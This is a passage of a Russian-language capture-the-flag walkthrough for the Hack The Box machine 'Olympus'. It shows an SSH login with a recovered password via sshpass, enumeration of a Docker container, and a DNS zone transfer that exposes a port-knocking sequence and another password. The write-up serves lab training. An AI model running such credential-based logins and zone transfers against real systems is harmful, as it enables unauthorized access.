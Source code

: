 # SSH — Порт 2222
```text
root@kali:~# sshpass -p 'Too_cl0se_to_th3_Sun' ssh -oStrictHostKeyChecking=no -p 2222 icarus@10.10.10.83
icarus@620b296204a3:~$ whoami
icarus

icarus@620b296204a3:~$ id
uid=1000(icarus) gid=1000(icarus) groups=1000(icarus)

icarus@620b296204a3:~$ uname -a
Linux 620b296204a3 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) x86_64 x86_64 x86_64 GNU/Linux

icarus@620b296204a3:~$ ls -la
total 32
drwxr-xr-x 1 icarus icarus 4096 Apr 15 21:50 .
drwxr-xr-x 1 root   root   4096 Apr  8 11:59 ..
-rw------- 1 icarus icarus   33 Apr 15 16:47 .bash_history
-rw-r--r-- 1 icarus icarus  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 icarus icarus 3771 Aug 31  2015 .bashrc
drwx------ 2 icarus icarus 4096 Apr 15 16:44 .cache
-rw-r--r-- 1 icarus icarus  655 May 16  2017 .profile
-rw-r--r-- 1 root   root     85 Apr 15 21:50 help_of_the_gods.txt
```

```text
icarus@620b296204a3:~$ cat help_of_the_gods.txt

Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb
```

`help_of_the_gods.txt` — все, что нам понадобится от этого соединения (к слову, очередной докер-контейнер).

# DNS — Порт 53 (TCP). Попытка № 2 [остров Родос]
Теперь мы знаем, в сторону какого домена *копать* :wink:
```text
root@kali:~# dig axfr @10.10.10.83 ctfolympus.htb

; <<>> DiG 9.11.4-P2-3-Debian <<>> axfr @10.10.10.83 ctfolympus.htb
; (1 server found)
;; global options: +cmd
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.         86400   IN      TXT     "prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.         86400   IN      A       192.168.0.120
ctfolympus.htb.         86400   IN      NS      ns1.ctfolympus.htb.
ctfolympus.htb.         86400   IN      NS      ns2.ctfolympus.htb.
ctfolympus.htb.         86400   IN      MX      10 mail.ctfolympus.htb.
crete.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
hades.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
mail.ctfolympus.htb.    86400   IN      A       192.168.0.120
ns1.ctfolympus.htb.     86400   IN      A       192.168.0.120
ns2.ctfolympus.htb.     86400   IN      A       192.168.0.120
rhodes.ctfolympus.htb.  86400   IN      CNAME   ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN TXT     "Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.     86400   IN      CNAME   ctfolympus.htb.
```